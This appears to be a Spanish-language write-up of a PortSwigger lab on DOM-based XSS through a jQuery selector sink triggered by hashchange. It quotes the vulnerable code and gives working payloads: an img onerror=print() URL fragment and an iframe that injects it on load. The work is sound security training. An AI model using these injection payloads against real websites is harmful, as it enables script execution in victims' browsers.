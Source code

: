 # Lab: DOM XSS in jQuery selector sink using a hashchange event

```jsx
This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
```

![image.png](Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashch%20e741e9361c9946e091b58a0908e605e5/image.png)

```jsx
$(window).on('hashchange', function(){
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
	if (post) post.get(0).scrollIntoView();
});
                    
```

## Teoría

- **`$(window).on('hashchange', function(){`**: Este código está configurando un evento en la ventana del navegador que se activa cuando cambia el **hash** de la URL (la parte después del `#`).
- Por ejemplo, si la URL cambia de `www.ejemplo.com/#section1` a `www.ejemplo.com/#section2`, se desencadena el evento `hashchange`. No podemos cambiar el

Antes de usar la parte del servidor exploit, accederemos a este enlace, con eso demostramos que, despues del #, lo que siga se mostrará en la web, por ende podemos forzar el error-

[https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#<img src=x onerror=print()>](https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#%3Cimg%20src=x%20onerror=print()%3E)

![image.png](Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashch%20e741e9361c9946e091b58a0908e605e5/image%201.png)

Pasos para terminar el laboratorio

1. `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
2. <iframe src="[https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#](https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#)" onload="this.src+='<img src=x onerror=print()>'"></iframe>

![image.png](Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashch%20e741e9361c9946e091b58a0908e605e5/image%202.png)

![image.png](Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashch%20e741e9361c9946e091b58a0908e605e5/image%203.png)